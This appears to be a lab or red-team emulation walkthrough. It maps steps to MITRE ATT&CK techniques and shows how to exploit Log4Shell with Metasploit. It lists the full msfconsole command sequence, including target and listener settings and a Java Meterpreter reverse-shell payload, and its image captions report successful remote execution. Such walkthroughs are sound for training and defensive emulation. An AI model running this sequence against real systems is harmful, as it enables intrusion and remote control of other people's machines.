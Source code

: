 # **Execution**

An API is used for communication between the control software and the hardware. \[T0871] <https://attack.mitre.org/techniques/T0871/> 


## Objective:

The goal of this step is for the attacker to gain initial access to the victim's network by exploiting a vulnerability in an application or service that is exposed to the internet.


## MITRE Technique: T0819 - Exploit Public-Facing Application

This technique involves using an exploit to take advantage of a weakness in an application that is accessible from the internet. This could be a web server, web application, or any other service that can be reached from outside the organization's network.


## Tools/Services:

1. **Metasploit Framework:** A powerful tool used for developing and executing exploit code against a remote target machine. It includes a large collection of exploits, payloads, and auxiliary modules.


#### **Tools/Services:**

- **Metasploit Framework:** Contains a module specifically for exploiting the Log4Shell vulnerability.


## Applying scenario:

#### **Step 2: Exploit the Vulnerability using Metasploit**<a id="step-2-exploit-the-vulnerability-using-metasploit"></a>

1. **Start Metasploit** Launch the Metasploit console in the attacker machine.

2. **Select the Log4Shell Exploit Module** Use the Log4Shell exploit module.

3. **Set the Target and Payload** Configure the target URL and the payload for the exploi.:

4. **Execute the Exploit** Run the exploit to send the malicious request.

```
# step 1
sudo msfconsole

# step 2
use exploit/multi/http/log4shell_header_injection  

# step 3
setg HTTP_HEADER X-Api-Version
setg RHOSTS <target-ip>  # 10.208.89.15
setg RPORT <target-port> # 8080 (or 8081 written in docker-compose file)
setg SRVHOST <host-server-ip> # 10.208.5.100
setg SRVPORT <host-server-port> # 1389
setg TARGETURI <target url> # /
setg HTTP_SRVPORT <target http_port> # 8080
setg LHOST <listening ip - host ip> # 10.208.5.100
setg payload java/meterpreter/reverse_tcp

#step 4
exploit

```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeh7p50-5d_oRKm24tuo1s6EdqTHlTk4KLA9h6AkCElp3TTX2Mm7hAEb05MdjOZh_xt_nOPQGl-siacPIyb-fau8j-xTJVLqe1VNvqXve1VhHXC0vwkuLF7ovMkGvcHVzx61G9vh6-0K1syvpRwCH0sGw8F?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 1:** Log4Shell exploit options after setting.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXftMI1u0FiMs2U11Z-LOdo11LZihx8KraHfZnYA7nIBS9eS-b6bdm52ihI9Cs6WGSoh8L3FmW3huJTYVVliSnJx6M9VKIhwXRoF7-z4x6TWD08v52OwynJXxyJUbGKQ6J8pJr5HPXXg3Hmb8BpAg6MDr70?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 2:** Log4Shell exploit execution with successful remote execution.
